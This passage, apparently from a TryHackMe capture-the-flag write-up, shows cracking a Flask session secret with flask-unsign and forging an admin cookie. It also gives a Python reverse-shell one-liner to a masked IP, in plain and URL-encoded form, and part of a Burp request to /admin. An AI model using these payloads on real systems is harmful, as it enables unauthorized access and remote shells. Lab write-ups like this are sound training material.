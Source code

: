 ```bash
(rosana) :~/Intranet# flask-unsign --unsign --cookie "$(cat sessioncookie.txt)" --wordlist mylist.txt
[*] Session decodes to: {'logged_in': True, 'username': 'anders'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 176512 attempts
'secret_key_xxxxxx'
```

<h2 align="center">JWT to enable admin´s session</h2>

```bash
:~/Intranet# flask-unsign --sign --cookie '{"logged_in": true, "username": "admin"}' --secret 'secret_key'
IntcImxvZ2dlZF9pblwiOiBycnVlLCBcInVzZXJuYW1lXCI6IFwiYWRtaW5cIn0i.aN02ZA.5zGKWNTWRjy-BYWYSwBDCkjTqVQ
```

eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.aLDTWw.anr8hkKuMLBVnG5L3pAfLTtUdtA

<img width="1160" height="507" alt="image" src="https://github.com/user-attachments/assets/2378bf16-ef04-4064-8667-49b92eccd918" />


<img width="788" height="205" alt="image" src="https://github.com/user-attachments/assets/6d22e171-682c-4216-b3cb-89260d53ff81" />



<h2 align="center">admin</h2>
<p>

- substituted the session´s cookie<br>
- refreshed</p>
- Web Application fourth flag</p>

<img width="1267" height="342" alt="image" src="https://github.com/user-attachments/assets/9ffe43dd-c7d7-4a78-a763-e8de0f6fc487" />

<br>
<br>
<p>1.4. What is the fourth web application flag?<br>
<code>THM{********************************}</code></p>

<br>
<h2 align="center">Reverse Shell</h2>

```bash
/usr/bin/python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xxx.xxx.xxx",52222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```bash
%2Fusr%2Fbin%2Fpython3%20%2Dc%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%22xx%2Exxx%2Exxx%2Exxx%22%2C52222%29%29%3Bos%2Edup2%28s%2Efileno%28%29%2C0%29%3Bos%2Edup2%28s%2Efileno%28%29%2C1%29%3Bos%2Edup2%28s%2Efileno%28%29%2C2%29%3Bpty%2Espawn%28%22%2Fbin%2Fsh%22%29%27
```

<h2 align="center">Burp´s Repeater</h2>

```bash
POST /admin HTTP/1.1
Host: xx.xxx.x.xxx:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Origin: http://xx.xxx.x.xxx:8080
Connection: keep-alive
Referer: http://xx.xxx.x.xxx:8080/internal
```